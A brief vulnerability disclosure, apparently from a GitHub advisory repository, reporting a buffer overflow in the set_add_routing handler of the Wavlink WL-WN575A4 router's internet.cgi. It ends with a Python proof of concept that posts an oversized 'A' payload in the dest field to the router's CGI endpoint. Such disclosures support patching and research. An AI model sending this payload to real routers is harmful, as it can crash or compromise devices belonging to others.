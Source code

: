 # buffer overflow

## WAVLINK_WL_WN575A4

version: 20220801

## Description:

There is a buffer overflow in internet.cgi/set_add_routing

## Source:

you may download it from : https://www.wavlink.com/zh_cn/firmware/details/a3d6df692e.html

## Analyse:


![](10.png)

get value from dest 

![](11.png)  
if v5 equal to 'net', call strcat, causee buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/internet.cgi"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'set_add_routing', 'dest': payload ,'hostnet':'net'})
``` 
